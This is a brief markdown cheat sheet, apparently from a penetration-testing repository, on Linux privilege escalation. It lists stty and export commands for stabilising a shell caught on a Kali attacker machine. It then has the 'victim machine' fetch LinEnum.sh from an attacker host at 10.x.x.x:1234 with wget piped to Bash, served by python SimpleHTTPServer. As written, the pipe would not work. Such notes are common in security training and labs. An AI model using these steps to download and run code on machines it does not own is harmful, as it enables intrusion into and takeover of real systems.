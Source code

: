 Linux Privilege Escalation
-------------------------- 

  Fixing a Shell <br>
  Mirror the victims machine with your kali terminal window <br>
  
  $ stty -a  <br>
  $ stty raw -echo <br>
  $ fg <br>
  $ stty rows <number> columns <number> <br>
  $ reset <br>
  $ export TERM=screen <br>
  $ export SHELL=bash <br>
  
  Fixing a Shell <br>
  Run Linux Exploit Suggester or LinEnum.sh <br>
  
  Victim Machine <br>
  wget http://10.x.x.x:1234/LinEnum.sh | Bash
  Attacker Machine <br>
  python -m SimpleHTTPServer 1234
  


